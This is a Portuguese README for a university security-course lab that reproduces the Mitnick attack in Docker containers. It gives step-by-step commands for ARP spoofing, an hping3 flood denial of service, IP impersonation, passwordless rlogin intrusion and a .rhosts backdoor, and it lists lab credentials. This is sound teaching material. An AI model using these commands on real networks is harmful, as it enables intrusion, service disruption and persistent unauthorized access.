 # Mitnick Attack

## **Requisitos**

- docker
- docker compose

## **Contexto**

Este é o trabalho para a disciplina de Segurança Computacional da Universidade Federal do Paraná. O objetivo é reproduzir o ataque de Kevin Mitnick e demonstrar que é possível obter acesso a uma rede interna sem a necessidade de um ataque de força bruta.

***

## [Entendendo o ataque de Mitnick](https://seedsecuritylabs.org/Labs_16.04/PDF/Mitnick_Attack.pdf)

Basta seguir o link acima.

***

## **Entendendo nossa versão do ataque**

### **estrutura geral**

Nossa topologia consistirá de 3 containers docker:

1. [attacker](./docker-compose.yml#L29)
2. [trusted_server](./docker-compose.yml#L17)
3. [x-terminal](./docker-compose.yml#L5)

Os três containers estão na mesma rede e conseguem se enxergar. Entretanto, existe uma relação de confiança entre o trusted_server e o x-terminal. O x-terminal é um terminal que só pode ser acessado, sem a necessidade de senha, a partir do trusted_server.

O sistema de acesso remoto será feito usando rlogin.

### **x-terminal**

A máquina x-terminal possui um usuário chamado "fontoura" com senha "fontoura".

### **attacker**

A máquina attacker é uma máquina que está tentando acessar o x-terminal. Ela não tem acesso direto ao x-terminal mas tem acesso a rede interna.

### **trusted_server**

A máquina trusted_server é uma máquina que tem acesso direto ao x-terminal. Ela é a única máquina que pode acessar o x-terminal.

A largura de banda do trusted_server é limitada, para simular uma interface de rede lenta e sucetível a ataques de negação de serviço.

### **Ataque**

O ataque será feito em 5 etapas:

1. [Arp Spoofing](.#L100)
2. [Negação de serviço](./Readme.md#realizando-a-negação-de-serviço)
3. [Personificação](./Readme.md#realizando-a-personificação)
4. [Invasão](./Readme.md#invadindo)
5. [Backdoor](./Readme.md#configurando-o-backdoor)

Cada etapa será abordada em detalhes a seguir.

***

## **Como executar**

1. Iniciando as máquinas

    ```bash
    docker-compose up -d
    ```

2. Acessando as máquinas

    Para acessar cada uma das máquinas. Em três terminais diferentes, execute os seguintes comandos, um em cada terminal:

    ```bash
    docker exec -it trusted_server bash
    docker exec -it attacker bash
    docker exec -it victim bash
    ```

    Para explorar a relação de confiança entre o trusted_server e o x-terminal, execute o seguinte comando no terminal do trusted_server:

    ```bash
    rlogin -l fontoura x-terminal
    ```

    Isso fará com que o usuário fontoura seja logado no x-terminal sem a necessidade de uma senha.

    Agora, para verificar que o x-terminal não pode ser acessado por outras máquinas, execute o seguinte comando no terminal do attacker:

    ```bash
    rlogin -l fontoura x-terminal
    ```

    O comando acima tentará realizar o login no x-terminal. Como o attacker não é o trusted_server, o login necessitará de uma senha.

    **Obs.:** Em alguns cenários o docker manipula o iptables da máquina host. Caso sua politica de FORWARD esteja DROP, execute: `sudo iptables -P FORWARD ACCEPT`.

    Para verificar a politica de FORWARD, execute: `sudo iptables -L FORWARD`.

3. Realizando o arp spoofing

    Para realizar o arp spoofing, execute o seguinte comando no terminal do attacker:

    ```bash
    arpspoof -i eth0 -t 172.28.1.2 172.28.1.3
    ```

    O comando acima faz com que o attacker se passe pelo trusted_server para o x-terminal. Envenenando a tabela arp do x-terminal.

    É possível verificar que o arp spoofing foi realizado com sucesso executando o seguinte comando no terminal do x-terminal:

    ```bash
    arp -a
    ```

    Podemos ver que o trusted-server está na tabela arp do x-terminal com o endereço MAC do attacker.

4. Realizando a negação de serviço

    Para realizar a negação de serviço, execute o seguinte comando no terminal do attacker:

    ```bash
    hping3 --flood --rand-source 172.28.1.3
    ```

    O comando fará um flood de pacotes no trusted_server. O objetivo é saturar a largura de banda do trusted_server, fazendo com que ele não consiga mais responder as requisições do x-terminal ou se comunicar com a rede.

5. Realizando a personificação

    Para realizar a personificação, iremos mudar o IP do attacker para o IP do trusted_server. Para isso, execute o seguinte comando no terminal do attacker:

    ```bash
    ifconfig eth0 172.28.1.3
    ```

    Agora, o attacker está se passando pelo trusted_server para o x-terminal.

6. Invadindo

    Para verificar que a personificação foi realizada com sucesso, podemos tentar realizar o login sem senha em x-terminal. A partir do attacker, execute o seguinte comando:

    ```bash
    rlogin -l fontoura x-terminal
    ```

    O comando acima tentará realizar o login no x-terminal. Como o attacker está se passando pelo trusted_server, o login será realizado com sucesso e o usuário fontoura será logado no x-terminal sem a necessidade de uma senha.

7. configurando o backdoor

    Para abrir a conexão através do rlogin ao x-terminal para o attacker, execute o seguinte comando no terminal do x-terminal:

    ```bash
    echo '172.28.1.4 root' >> /home/fontoura/.rhosts
    ```

    Isso permitirá que o attacker se logue no x-terminal sem a necessidade de uma senha.

8. Conclusão

    Com o backdoor configurado, podemos retornar o IP do attacker para o seu IP original. Para isso, execute o seguinte comando no terminal do attacker:

    ```bash
    ifconfig eth0 172.28.1.4
    ```

    Para verificar que o backdoor está funcionando, execute o seguinte comando no terminal do attacker:

    ```bash
    rlogin -l fontoura x-terminal
    ```

    Se o backdoor estiver funcionando, o usuário fontoura será logado no x-terminal sem a necessidade de uma senha.

    Para conferir que os pacotes não estão passando pelo trusted_server, execute o seguinte comando no terminal do attacker:

    ```bash
    tcpdump -i eth0 tcp port 513
    ```

    O comando acima irá capturar os pacotes que estão sendo enviados para o x-terminal. Como o attacker está se passando pelo trusted_server, os pacotes não devem passar pelo trusted_server.

***

## Roadmap

- [X] colocar as maquinas na mesma rede
- [X] derrubar o trusted server
- [X] personificar ip e mac do trusted server
- [X] fazer rlogin no x-terminal através do attacker
- [ ] conferir se os pacotes estão sendo enviados para o trusted server
- [ ] fechar o x-terminal para ser acessado apenas pelo trusted server
- [ ] fazer o backdoor de forma que fique aberto para toda a rede
